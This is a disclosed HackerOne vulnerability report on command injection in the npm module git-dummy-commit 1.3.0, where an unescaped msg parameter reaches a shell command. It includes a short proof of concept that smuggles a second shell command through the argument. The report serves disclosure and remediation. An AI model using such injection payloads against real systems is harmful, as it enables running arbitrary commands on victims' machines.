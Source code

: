 # [git-dummy-commit] Command injection on the msg parameter

## Report Details
- **Report ID**: 341710
- **URL**: https://hackerone.com/reports/341710
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-04-22T03:26:03.610Z
- **Disclosed**: 2018-06-15T21:59:11.029Z

## Reporter
- **Username**: caioluders
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi there, I've found a Command Injection on the "git-dummy-commit" module.

# Module

**module name:** git-dummy-commit
**version:** 1.3.0
**npm page:** https://www.npmjs.com/package/git-dummy-commit

## Module Description

> Create a dummy commit for testing

## Module Stats

[62] downloads in the last day
[94] downloads in the last week
[384] downloads in the last month
[6078]  downloads in the last year

# Vulnerability

## Vulnerability Description

The module appends the `msg` parameter to a command on the [line 37](https://github.com/stevemao/git-dummy-commit/blob/master/index.js#L37)  without escaping it, leading to a command injection.

## Steps To Reproduce:

* Install the module 

```
$ npm install git-dummy-commit
```

* Example code with the malicious payload `";touch a;"` on line 3.

```javascript
const gitDummyCommit = require('git-dummy-commit');

gitDummyCommit('";touch a;"');
```
* Run it.

```
$ node index.js
```

* Check the newly create file `a` 

```
$ ls
a		index.js
```

## Patch

It is advisable to use a module that explicitly isolates the parameters to the `git` command.

**( contacted the maintainer || opened issue ) = False**

## Impact

An attacker that controls the `msg` parameter can injection command on the victim's machine.

## Attachments
No attachments
